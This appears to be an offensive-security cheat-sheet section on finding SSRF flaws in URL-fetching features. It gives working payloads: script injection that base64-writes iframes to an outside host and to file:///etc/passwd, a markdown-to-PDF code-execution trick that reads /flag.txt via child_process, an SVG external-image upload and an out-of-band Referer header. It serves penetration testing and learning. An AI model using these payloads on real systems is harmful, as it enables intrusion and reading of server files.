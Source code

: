 # Detection
- Find features that require visiting and fetching external resources:
  - Add a new webhook
  - File upload via URLs
  - Link expansions (URL shortened) or thumbnails
  - Proxy services 
  - Document and image processors
    - PDF generators, HTML and message boxes which turns into something else.
      ```html
      "name":"test<script>document.write('hi')</script>",
      
      <iframe src="http://cvefix.ir:8080">
      "name":"test<script>document.write(atob('PGlmcmFtZSBzcmM9Imh0dHA6Ly9jdmVmaXguaXI6ODA4MCI+'))</script>",

      <iframe src="file:///etc/passwd">
      "name":"test<script>document.write(atob('PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZXRjL3Bhc3N3ZCI+'))</script>",
      ```
    - Exploit on md to pdf library with javascript engine
      ```bash
      ---js
      {
          css: `body::before { content: "${require('child_process').execSync('cat /flag.txt')}"; display: block }`,
      }
      ---
      # or
      ---js
      {
          css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
      }
      ---
      ```
    - Upload SVG (change image content-type to `image/svg+xml` in Burp interceptor)
      ```svg
      <svg width="200" height="200"
        xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.0rg/1999/xlink">
        <image xlink:href="https://example.com/image.jpg" height="200" width="200"/>
      </svg>
      ```
- Find endpoint that processes a user-provided URL:
  - URLs embedded in files that are processed by the application (XML files and PDF files can often be used to trigger SSRFs)
  - hidden API endpoints that accept URLs as input
  - input that gets inserted into HTML tags
- Fuzz everywhere (parameter, body and headers) with 
  - Burp `Colaborator everywhere`. (It`s very noisy, not recommended)
  - We can use **auto-repeater** extension with our VPS address.
  - Also in request header for OOB
    ```bash
    GET /product?productId=1 HTTP/2
    (POST request body)
    Referer: https://cvefix.ir
    ```
- Check internal URLs with/without `http`. ([Reserved IPs](https://en.wikipedia.org/wiki/Reserved_IP_addresses))
  ```bash
  localhost
  127.0.0.1
  0.0.0.0
  192.168.0.1
  ```